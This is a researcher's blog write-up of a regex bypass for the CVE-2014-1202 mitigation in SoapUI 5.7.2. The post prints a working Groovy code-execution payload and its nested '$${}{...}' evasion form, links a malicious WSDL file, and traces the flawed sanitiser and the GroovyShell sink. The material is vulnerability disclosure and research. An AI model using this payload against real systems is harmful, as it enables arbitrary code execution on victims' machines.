 # Arbitrary Code Injection Via Groovy Script Parser (SoapUI)


**Severity:** High

**Exploitability:** Medium

**Function:** XML/WSDL

Hello everyone,

In this blog, I will explain how I bypassed the mitigation for **CVE-2014-1202** using instrumentation.

While reviewing the **CVE-2014-1202** vulnerability, I noticed that in SoapUI, WSDL can be loaded from a URL or file. However, older versions of SoapUI do not have validation when loading XML/WSDL with a Groovy script, which can lead to a code injection issue.

---

### What is Groovy.

Groovy is **a scripting language for the Java platform**. It's a superset of Java, which means Java programs can run in the Groovy environment.

While Groovy can be a powerful tool, it is crucial to use it responsibly and securely. Always ensure that input validation and sanitization measures are in place to prevent code injection vulnerabilities.

---

To reproduce this issue, I attempted it with the latest version of SoapUI (5.7.2). 

You can download it from the following link: [**](https://www.soapui.org/downloads/latest-release/)https://www.soapui.org/downloads/latest-release/**

Also i did project setup and instrument using **Fusion Lite Project Manager.**

Download Malicious WSDL file of previous payload:  https://raw.githubusercontent.com/spookhorror/SOAPUICodeInjection/main/OLDWSDL.xml

To load WSDL please follow below step:
Click on SOAP and append endpoint of XML file. Click on “OK”

![image](https://github.com/spookhorror/Blogs/assets/67255423/5a9ef37f-3520-4d14-a939-7794ba50275f)

As we can see application is removing malicious content. Observe the logs.

```java
${=Runtime.getRuntime().exec('calc.exe')};
```
![image](https://github.com/spookhorror/Blogs/assets/67255423/6a06928f-619a-4108-af14-f45fb04986eb)
![image](https://github.com/spookhorror/Blogs/assets/67255423/1e461b97-8ece-4d81-a425-909c6e955829)

In **Fusion Lite Analyzer** we can see that application has Class called **Tools** which is responsible for removing malicious content because it has regex functionality which will remove malicious content.

![image](https://github.com/spookhorror/Blogs/assets/67255423/7d528050-6c32-4f6e-b203-d692a62eb83f)
![image](https://github.com/spookhorror/Blogs/assets/67255423/2db890e8-4e51-40e3-a667-94b21828bd0e)

After trying multiple methods to bypass regex, I have created a payload where the regex only removes a specific string payload

I.e

Old Payload
![image](https://github.com/spookhorror/Blogs/assets/67255423/beda9bdd-7f6f-4782-b381-73d69975a3b3)

New Payload
![image](https://github.com/spookhorror/Blogs/assets/67255423/a61d0b7c-6d73-43ec-b58c-a8b99aaae5c7)

```java
$${}{=Runtime.getRuntime().exec('calc.exe')}; to ${=Runtime.getRuntime().exec('calc.exe')};
​
```

As we can see, the regex matches only specific characters from the payload. Therefore, the method below will remove only a specific substring from the payload and return the actual payload.
```java
public static String removePropertyExpansions(String definitionUrl, String definition) {
        Matcher matcher = PROPERTY_EXPANSION_CONTAINS_PATTERN.matcher(definition);
        while (matcher.find()) {
            log.warn(messages.get("Tools.Warning.PropertyExpansionRemovedFromDefinition", definitionUrl, matcher.group()));
        }
        return matcher.replaceAll("");
    }
}


com.eviware.soapui.support.Tools : java.lang.String removePropertyExpansions(java.lang.String definitionUrl, java.lang.String definition)
​
```
We need to update payload in WSDL file and again load in SoapUI.
Updated XML:

![image](https://github.com/spookhorror/Blogs/assets/67255423/519aad05-e3e8-4fd4-9656-96096c7ad917)
![image](https://github.com/spookhorror/Blogs/assets/67255423/32e12d26-548b-4a93-af1b-4786574e5cbf)

Click on 'Send Request' and observe the execution of the calculator.

![image](https://github.com/spookhorror/Blogs/assets/67255423/219ad647-12d5-43bb-a678-57fa14fa27a3)

With updated payload we can see that below method has removed only this ${} content from payload and return updated string as.

Updated string:

```java
$${}{=Runtime.getRuntime().exec('calc.exe')}; to ${=Runtime.getRuntime().exec('calc.exe')};
```

Method:

```java
com.eviware.soapui.support.Tools : java.lang.String removePropertyExpansions(java.lang.String definitionUrl, java.lang.String definition)
```
![image](https://github.com/spookhorror/Blogs/assets/67255423/416aaab6-9ace-440f-abe1-3b36f406ef74)

Logs:
![image](https://github.com/spookhorror/Blogs/assets/67255423/53ea39b0-a44c-44db-8512-0252463551fc)



Here is updated content of request which contain malicious groovy script.
![image](https://github.com/spookhorror/Blogs/assets/67255423/a2927359-020a-483a-9c87-a522f3f33c3b)


The following method will execute a Groovy script that contains malicious code.

```java
groovy.lang.GroovyShell : groovy.lang.Script parse(java.lang.String)
```

![image](https://github.com/spookhorror/Blogs/assets/67255423/99fad30e-b7f8-45e7-8678-b1a36ae149f5)
